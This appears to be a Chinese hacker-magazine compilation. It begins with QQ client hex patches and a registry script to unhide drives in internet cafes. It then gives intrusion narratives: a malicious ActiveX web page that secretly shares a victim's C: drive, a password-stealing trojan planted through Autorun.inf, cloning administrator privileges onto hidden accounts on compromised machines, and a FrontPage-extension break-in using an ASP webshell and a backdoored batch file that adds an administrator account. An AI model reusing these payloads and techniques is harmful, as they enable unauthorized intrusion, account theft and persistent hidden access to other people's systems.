

如果觉得上面的方法麻烦，这里还有一个简便的招数告诉大家。首先，下载并安装 16 进制文件编辑软件 UltraEdit，它可以编辑 EXE、DLL 文件，修改文件的内容。下载地址是：http://61.243.111.253:8089/officeapp/editer/ultraedit/cuedit1000b.exe。然后运行该软件，点击“文件”菜单中的“打开”，在“打开”对话框中找到 QQ 的主文件，采用默认安装方式，该文件在 `C:\Program Files\Tencent` 文件夹下，点击“打开”按钮打开 QQ 的主文件 QQ.EXE，再点击“搜索”菜单下的“查找”，在弹出的“查找”对话框的“查找什么”栏中输入“8945FC742B”（没有引号），点击“下一个”按钮，在 UltraEdit 会找到唯一的一处结果，把它修改为“8945FC9090”（没有引号），保存修改结果，退出 UltraEdit。这样，QQ 就再也不会下载新的广告了。

但是由于以前你使用其他版本的QQ时，曾自动下载过广告到QQ的安装目录下，所以如果此时运行QQ，在QQ的发送消息窗口中你仍然可以看到那些广告内容。因此，我们应该把它们也删除。到 `C:\Program Files\Tencent\AD` 文件夹下，删除里面所有的 GIF 文件和 SWF 文件，这些文件就是从腾讯服务器上下载下来的广告，运行QQ试试，在发送消息窗口中怎么还有一个广告在上面？虽然永远都是这一个广告在动来动去的，再没有新的广告内容，但是对于要求严格的我们来说，这样仍旧不爽，得把它也去掉。很简单，只要到 `C:\Program Files\Tencent\dat` 文件夹下删除 `ad.gif` 文件，就可以使这最后一个广告消失得无影无踪！运行QQ试试，清爽得不得了——发送消息窗口中原来的广告位置一片空白！而且，点击这个广告位置，腾讯浏览器 TBrowser 也没有再跳出来（在没有修改前，点击这里会自动运行 TBrowser，连接到相应的网站，非常讨厌），而且，用这个办法还可以屏蔽QQ自动从服务器上下载 Flash 文件（简单地说就是那些会动的大广告），并且其他有广告的地方如“BP短讯”和“手机”中都没有广告了，真是一举多得！

## 5. 挖出最新版QQ的彩蛋

QQ是大家常用的即时通讯工具，在 QQ2000C 系列 0825 版以前的QQ中隐藏了这样一枚彩蛋——“给你一千年的回忆”。目前，最新版本的QQ为 QQ2000C Build 1230，该版本QQ中的彩蛋与以往不一样，大家可以自己动手“挖出”这个彩蛋欣赏一下。



运行QQ，然后对着屏幕右下角的QQ图标点击鼠标右键，在弹出的菜单中选择“帮助”→“关于”，会出现如图所示窗口（图11），对着显示版本号信息的那一行（QQ2000C Build 1230），按1秒钟1下的频率点击鼠标10下左右，你就会发现版本号那一行突然变为“一切都是那么静谧美好”（图12）。是不是很有意思啊？注意，要再次打开这个彩蛋需要关闭QQ，然后再次运行QQ。



## 6. 减少QQ被盗的可能

在网吧等公共场所使用QQ，最害怕的事就是密码被盗。有个简单的办法可以让你的QQ被盗的机会减少50%。方法是：使用完QQ，不要直接点击右上角的“X”号关闭QQ，而是点击右下角的QQ图标，选择“退出”选项，这样关闭QQ，你的QQ号码就不会被记录在QQ的登陆窗口里，从而减少了QQ被盗的机会。要提醒大家注意的是，这个方法不防木马哟，它只能减少你的QQ号码被窃的可能。

如果你的号码已经被记录在QQ的登陆窗口中了，你可以打开资源管理器，找到QQ所在目录，里面有一个 `dat` 文件夹，打开后可以看到一个 `oicq2000.cfg` 文件，删除这个文件。同时，删除QQ目录下面不再需要号码的文件夹。连接上网，启动QQ，会出现注册向导，依次输入属于自己的QQ号码，进行注册，完成以后再用上面的方法退出QQ，就可以更好地保护自己的QQ号码了。

现在就剩下一个问题了：网吧中受网吧管理软件的限制无法进入硬盘，无法删除文件。不要着急，你可以这样试试：在 IE 浏览器的地址栏中输入：`file:///{20D04FE0-3AEA-1069-A2D8-08002B30309D}`，就可以突破限制进入“我的电脑”中。如果硬盘被隐藏了，请查看任意一个网页的源代码，把里面的内容全部清空，然后输入下面的代码，存为任意名字的 `.JS` 文件：

```
js
var WSHShell=WSCRIPT.CreateObject("WSCRIPT.SHELL");
WSHShell.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\NoDrives",0,"reg_dword");
```

使用时双击即可让隐藏的硬盘显现出来！最后，在删除 oicq2000.cfg 文件时，可以先选中它，然后按键盘上的 Del 键，松开按键后迅速按下 Enter 键。这样，我们在网吧就可以删除文件了。

## 7. 给隐身好友传文件

在 QQ 的默认状态下，是无法给隐身好友传送文件的，虽然利用带 IP 补丁的 QQ 可以给隐身好友传送文件，但你自己必须是在上线状态才行，而且带 IP 补丁的 QQ 出现的速度实在是太慢了。其实，这个问题我们也可以自己动手解决，针对最新版的 QQ2000C 1230 稳定版，你可以用下面的办法来解决这个问题。

依旧使用 UltraEdit，运行它，用它打开 QQ 安装目录下的 CQQApplication.dll 文件，修改该文件就可以达到给隐身好友传送文件的目的。点击“搜索”菜单下的“查找”，在弹出的“查找”对话框的“查找什么”栏中输入“885DFC7420”，点击“下一个”按钮，在 UltraEdit 会找到惟一的 1 处结果，把它修改为“885DFC9090”，保存修改结果，退出 UltraEdit。运行 QQ 试试，无论自己是隐身状态还是上线状态，都可以给隐身好友传送文件，没有任何限制，真过瘾啊！

## 8. 让“传送文件”选项永远亮起来

在 QQ 好友名单中用鼠标左键点击任意一个好友的头像，会出现一个弹出菜单，里面有个选项“传送文件”，如果好友在线且未隐身，该选项是高亮显示的可用状态。但是，如果 QQ 好友隐身或未上线，则这个选项是灰色不可用状态（图 13）。本来这没有什么，也很正常，但是，就像我们前面说过的那样，对于隐身好友如果不修改 QQ 的文件，我们就无法给他传送文件。如果这个选项永远都是亮起来的可用状态，想想会怎么样？哈哈，那样就可以给隐身好友传送文件了！而且，这样一来保管你的好友大吃一惊——我隐身了他怎么还能给我传送文件呢？当然，另外一个好处就是你的朋友看到你的 QQ 这样与众不同，保证很佩服你，在他跟你学技术的过程中怎么也可以让他破费一点吧，呵呵！下面是具体的方法。



图 13

运行我们的“法宝”UltraEdit，用它打开 CQQApplication.dll 文件，然后按 Alt+F3 组合键查找如下代码：FF7508FF7604FF1548490610，找到后把它们改为 6A0090FF7604FF1548490610，然后保存修改结果，关闭 UltrEdit。运行 QQ 试试，用鼠标左键随便单击任意一个好友的头像，无论你的好友是否在线或隐身与否，在出现的弹出菜单中“传送文件”都是可用状态（图 14），是不是很有意思啊？更有趣的是，就算你在离线状态下，这个选项依旧是可用状态，很神奇吧？快试试吧！



图 14

最后要提醒大家的是，在用 UltraEdit 修改文件之前，一定要事先检查该文件是否处于“只读”状态，如果是的话，请将“只读”属性取消，否则无法对目标文件进行修改，这一点非常重要，切记切记。另外，当 QQ 正在运行时，也不要用 UltraEdit 修改相关文件，因为那样无法保存修改结果。好了，尽情地修改吧，去体验自己的 QQ 与众不同的独特乐趣！

# 找回被盗的 QQ 号



文 / mopisn boy

最近我的一位朋友找到我，告诉我他有一个用了近两年的 QQ 号不久前在网吧上网时不慎被盗了；因为懒，至今没有申请密码保护，但他又舍不得那么多的好友，所以求我一定要帮他找回来。找回被盗的 QQ 号，这谈何容易，但又碍于情面，我只好答应试一试。

## 1月30号

今天一大早起来就打开了电脑，替朋友做事总是感到很神圣。首先，利用腾讯的找回密码服务看看盗号者是不是已经申请密码保护了。万幸，那人很笨还没有申请。如果已经申请的话，下面的工作就都白搭了。打开 QQ，利用“查找朋友”看看那个盗号者的信息：男，22 岁。不知道是不是真的，不过我敢肯定是本县居民。把他加为好友，居然还要身份验证，只好等着他上线了。

下午两点多，盗号者终于上线了，把他加为好友。气死我了，他的警惕性还真高，就是不肯加我。只好换个 QQ，把自己扮成一个 MM 的样子，再用一番花言巧语，终于让他高高兴兴地把我加为好友。通过显 IP 的 QQ 我知道了他的 IP 地址，果然是本县的；更令我高兴的是端口号是 4000，八成是在家里上网。经过进一步的 chat，我已经可以断定我先前的猜测都是正确的。哈哈，找回 QQ 号有希望了。

既然对方是在家上网，那么就得入侵个人电脑。我是菜鸟，我只会简单的方法：利用木马？不行，一定会被对方的杀毒软件发现的，那我只好用共享入侵了。

## 1月31日

今天又遇上那个盗号者了，拿出流光，给他的电脑做个检查。令人失望，没有什么我会利用的漏洞，更没有我希望的共享了。不过这难不倒我，我可以给他开个共享。这里我告诉大家一种比较简单的方法，利用网页的恶意代码修改对方的注册表。可以在记事本中输入以下代码，保存为 html 文件即可：

```
html
<script language=JavaScript>
document.write("<APPLET HEIGHT=0 WIDTH=0 code=com.ms.activeX.ActiveXComponent></APPLET>");
function f()
{a1=document.applets[0];
a1.setCLSID("{1F935DC22-1CF0-11D0-ADB9-00C04FD58A0B}");
a1.createInstance();
Shl = a1.GetObject();
Shl.RegWrite ("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\RWC$\\Flags",402,"REG_DWORD");
Shl.RegWrite ("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\RWC$\\Type",0,"REG_DWORD");
Shl.RegWrite ("HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Network\\LanMan\\RWC$\\Path","C:\\"); }
function init()
{setTimeout("f()", 1000);}
init();
</script>
```

上面的代码大家一定很容易读懂，这只是开对方C盘共享，如果想让对方的其他盘都共享请自行设置。网页做好后，我把它上传到我的主页空间，然后我对那个盗号者说：“这是我的个人主页，里面有我的几张照片，你去看看吧。”哦，忘了告诉大家了，我在刚才的网页里放了两张MM的照片，这样可以避免别人的怀疑。^-^

盗号者顺利中招了，下一步就是把对方的磁盘映射过来，可以用`net use`命令。可是我不习惯用这些命令，这里我用的是天行的网络刺客（图1）。

按Ctrl+A或点击“添加主机”图标，在弹出的窗口中填入对方的IP，确定后在程序的左下栏你将会看到对方的IP。选择IP后进行共享资源刷新，具体的做法在前几期已经有了介绍，不会的话就去翻翻以前的杂志。这时，对方的共享资源已经全部置于列表中了，把它们全部映射为网络硬盘，这是我已经可以像使用自己的硬盘一样操作对方的硬盘了（图2）。

下一步，我的主要目标就是植入一个盗QQ的软件，我用的是QQ杀手6.75。关于如何配置我就不多说了。这里要注意的是，因为是要在远程主机运行，所以我们只要生成一个木密码监控端就可以了，文件名随你改（如图3）。



接着，就是要让对方运行程序，我们可以把它添加到对方的启动组中，也可以添加到计划任务中，这里我利用的是光盘自动运行文件Autorun.inf。方法很简单，打开记事本键入以下内容：

```
ini
[AutoRun]
open=winnt32.exe
```

保存为AutoRun.inf，后把它和密码监控端winnt32.exe一起拷到对方E盘的根目录下。

## 2月2日

今天打开邮箱，不禁一震狂喜，QQ杀手提供的线报已经到了。连忙打开，呵呵，我不但找到了朋友的号码，还有一大堆其他的号码，估计都是盗的。

回顾整个过程，没有什么技术可言，这里只是给大家提供一个思路。其实，找回QQ密码的最好方法就是用密码保护。小生我还是个大菜鸟，以上难免有许多不足之处，还希望各位多多指点，我的QQ号是78415863。





古语云：打江山容易，守江山难。如何让肉鸡永远敞开大门，就成了所有菜鸟黑客们的必修课程。如果您不了解这方面的技术，那么不妨看一下此文。

# 克隆账号也疯狂

文／阿吉

## 什么叫克隆账号

克隆就是复制的意思，因此，克隆账号就是复制管理员权限给一个普通用户。简单来说，就是把系统内原有的账号（比如 GUEST）变成管理员权限的账号，但是还不让肉鸡的管理员发现。

注：管理员即使在 Windows 系统自带的账号管理中，也不会发现这个克隆的账号拥有管理员权限。如果听糊涂了请不用着急，后面会用图片演示具体制作克隆账号的过程，请耐心往下看，呵呵。

## 为什么要克隆账号

一般，我们菜鸟是用扫描器扫出设有密码或弱口令的管理员账号的，虽然一时能够上去，但是经过一段时间后，如果管理员发现了什么蛛丝马迹，很可能就会更改原来的弱口令。但如果我们能把管理员权限克隆到一个普通账号上，然后我们控制普通账号（因为一般来说，普通账号不会被管理员注意），这样即使管理员更改了原来的弱口令，也不会影响到我们的入侵。哈哈，够狠吧？而且这种方法比安装后门程序更安全，因为一般后门程序都需要开监听端口并且把自己添加到系统的启动项，而这些对于任何一个管理员都会查出。

小知识：众所周知，凡是安全的系统都是有用户识别的，而且对于不同的用户能够赋予不同的权限。也可以这样说，系统的安全是基于账户的权限。权限最高的用户在 Windows 系统内为 Administrator，在 linux 里面为 root。

下面介绍一个最简单的方法来克隆账号。使用工具：CA.exe，可以在本地克隆远程计算机中管理员账号给普通用户账号。

- 1. 先找到一个有管理员弱口令肉鸡，方法这里就介绍了，只要用 X-Scan 随便一个网段就可以扫出一大堆。
2. 打开 MS-DOS；用 CD、DIR 命令进入 CA.EXE 存放的文件夹。我们先来看看 CA 的用法，在 CA 所在文件夹中输入 `CA /?` 就会得到帮助说明如下：

```
text
D:\ca>CA /?
Shadow Administrator, by netXeyes 2002/04/28
Written by netXeyes 2002, dansnow@21cn.com

Usage: SA \\IP Account Password CloneAccount ClonePassword

Account:           Username (Own Administrator Privilege)
Password:          Password of User
CloneAccount:      CloneUser's Account Name (Must Already Exsited)
ClonePassword:     Set Password of CloneUser

Examples:
SA.exe \\192.168.0.16 Administrator Password IUSR_VICTIM SetNewPass
    Clone Privillege of Administrator to IUSR_VICTIM,
    And Set IUSR_VICTIM Password to "SetNewPass"
```

注：打开 MS-DOS 的方法，可以用快捷键 WIN+R 打开“运行”，如果是 Windows 98 或 Windows 95 在“运行”里输入 COMMAND，如果是 Windows 2000/XP 在运行里输入 CMD。

# 一次利用 FrontPage 扩展默认权限错误漏洞获取系统最高权限

文 / 青野志狼

用流光扫描时经常会扫到 FrontPage 扩展默认权限错误漏洞，但是一些人不知道它的严重性，而放弃了夺取 admin 的机会。下面是我的一次入侵经过。

首先，扫到 202.***.***.250 存在 FrontPage 扩展默认权限错误，现在打开 FrontPage，依次点击“文件”→“打开站点”，在里面输入 http://202.***.***.250（前面要加 http://）。打开后，点击左边的“导航”，这时对方的网站结构就出现在你面前了，呵呵，看看他主页！嗯，还不错，是一个 AUTOCAD 方面的网站，如果想改掉他的主页的话，直接找到那个页面，用 FrontPage 编辑就可以了。我们此次目的是获取最高权限，新建几个网页，分别把海洋顶端 asp 木马的程序拷进去，然后保存、重命名（或者直接复制、粘贴），

在 IE 里输入网址 http://202.***.***.250/index.asp，输入海洋·顶端的密码就可以进入到管理页面了，如图 2 所示。

嗯，文件倒是挺多的，随便看看，找到数据库文件的位置，并下载了下来（也不大），只有几百 k（因为好多网站的数据库里的密码都是明文存放的，所以先看看他的数据库），看了看，里面没有什么有用的信息！看来只能想办法提升权限了！用海洋顶端自带的上传页面，很快就上传了一个 idq.dll（如果没有打 sp3 的话，可以直接拿到 admin），然后用 ispc 溢出，结果不用说了，失败！（这是正常的），看来网站的服务器应该是 Windows 2000+SP3+IIS 了！嗯，好像没有什么能提升权限的漏洞了！随便逛了一下，竟然被我发现如图 3 所示的东西，啊呵……

看到了吧，是个批处理文件，管理员用批处理来干什么呢？应该是有利用价值的。点“编辑”后看到（图 4）。

```
bat
文件名：E:/databk.bat
copy d:\...\datako\*.mdb e:\webdata
```

原来是备份数据库的，看来这回有戏唱了！这个文件肯定经常执行，并且是以 admin 的权限执行，马上在下面添了几句（图 5）。

```
bat
文件名：E:/databk.bat
copy d:\...\datako\*.mdb e:\webdata
net user panger ****** /add
net localgroup administrators panger /add
exit
```

当这个批处理被执行的时候，也就自动添加了一个 administrators 组成员的账户。

现在工作做完了，随便转转没有什么好玩，就撤了！晚上又上去一看，用那个执行 cmd 命令的 asp 文件（cmd.asp）查看一下用户（图 6）。

